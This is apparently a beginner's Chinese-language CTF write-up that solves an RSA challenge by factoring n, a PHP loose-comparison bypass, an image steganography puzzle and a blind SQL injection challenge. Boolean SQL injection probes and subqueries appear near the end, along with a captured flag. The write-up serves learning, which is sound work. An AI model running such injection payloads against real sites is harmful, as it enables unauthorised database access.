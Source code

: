参考文章 http://www.ruanyifeng.com/blog/2013/07/rsa_algorithm_part_two.html

因为没有研究过rsa,所以只能follow文章去做。
已知 n e c   
把 n 放到 http://factordb.com 上分解，分解成功，得到p q。 e = 0x10001。  
用工具计算n 
遂得到 m = pow(c, d, n)



# 《web安全入门第一课》 ，《web安全入门第二课》 ，一段矛盾的代码


矛盾的代码，这个虽然不太懂，没接触过PHP，但有了源码就可以搜索相关的问题。


```
is_numeric(1a)   FALSE
1a == 1          TRUE
```


```
http://119.29.191.200/ctf/46d3e59de07a6aac6b2078c35aa4c16a03d10df3/?num=1a
```


# 重重flag背后隐藏的秘密

正则表达式筛选可以得到答案。

# 一张含有信息的图片 

古时候打仗，友军间通信为了不被敌人发现重要的情报，用了各种各样的方法隐藏信息，延续到了现代，又有了新的变化...

binwalk发现zlib ， 解压发现exif ，没头绪，放进Photoshop ，调色，发现flag。看到flag内容又get到一个新工具。

# 一个简陋的博客

前端的X同学做一半跑路了，反正功能实现了，能上传文章就行（逃。。。

对前几天才接触CTF的喔来说，这道题一直没有头绪，直到看到了这篇文章 [实验吧CTF之web专题-2](http://www.lujza.me/%E5%AE%9E%E9%AA%8C%E5%90%A7ctf%E4%B9%8Bweb%E4%B8%93%E9%A2%98-2.html)
原来是这样的

```
?id='               FALSE
?id=1 'and '1'='1   TRUE
?id=1 'and '1'='2   FALSE
```
现在可以猜密码了。

```
(select count(*) from flag)>0
(select flag from flag)> 0
```
于是得到flag ，但不知为何，提交说答案错误，后来发现全是小写。所以要注意了。
```
flAG{3Q1Map_1S_u3Sfu1}
```
